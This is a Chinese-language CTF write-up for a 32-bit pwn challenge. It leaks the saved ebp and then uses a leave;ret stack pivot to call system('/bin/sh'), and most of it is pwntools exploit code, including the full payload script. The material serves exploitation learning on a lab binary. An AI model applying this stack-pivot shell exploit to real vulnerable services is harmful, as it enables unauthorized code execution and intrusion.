 ## 困难

### 8字节能干什么

![image-20250815171755875](/n0va6/assets/gitbook/images/image-20250815171755875.png)

两次读入且每次都能覆盖ebp和返回地址，printf打印结果，容易考虑到栈迁移，而且程序给了system函数，把system写入栈上，在栈迁移到system，并写入/bin/sh执行即可

要迁移到栈就需要知道栈地址，而通过打印ebp的值再减去偏移就能获得栈上的任意地址

利用第一次读入输出ebp

exp

```
from pwn import*
context(arch='i386',os='linux',log_level='debug')

#p=remote('1.95.36.136',2131)
p=process('./pwn')

leave_ret=0x8048488
system=0x80483E0
payload=b'a'*(0x30)
p.send(payload)#这里注意用send，sendline的'\n'会将ebp低字节覆盖
p.recvuntil(b'a'*(0x30))
ebp=u32(p.recv(4))
print('ebp>',hex(ebp))
```

![](/n0va6/assets/gitbook/images/屏幕截图 2025-08-15 172746.png)

通过调试确定输入的起始地址(buf)

![](/n0va6/assets/gitbook/images/Snipaste_2025-08-15_17-36-54.png)

print_addr是输出的地址，与起始地址之间的偏移为0x40，减去0x40即可得到起始地址

第二次读入则构造栈迁移

```
payload=b'aaaa'+p32(system)+p32(0)+p32(buf+0x10)+b'/bin/sh'
payload=payload.ljust(0x30,b'\x00')+p32(buf)+p32(leave_ret)
```

前面4个a用来应对对第二次pop ebp;确保system被pop eip;把/bin/sh写入到距输入点(buf)0x10的位置作为参数，最后再利用栈迁移到system

完整exp

```
from pwn import*
context(arch='i386',os='linux',log_level='debug')

#p=remote('1.95.36.136',2131)
p=process('./pwn')

leave_ret=0x8048488
system=0x80483E0
payload=b'a'*(0x30)
#gdb.attach(p)
p.send(payload)
#pause()
p.recvuntil(b'a'*(0x30))
ebp=u32(p.recv(4))
print('ebp>',hex(ebp))
buf=ebp-0x40
payload=b'aaaa'+p32(system)+p32(0)+p32(buf+0x10)+b'/bin/sh'
payload=payload.ljust(0x30,b'\x00')+p32(buf)+p32(leave_ret)
```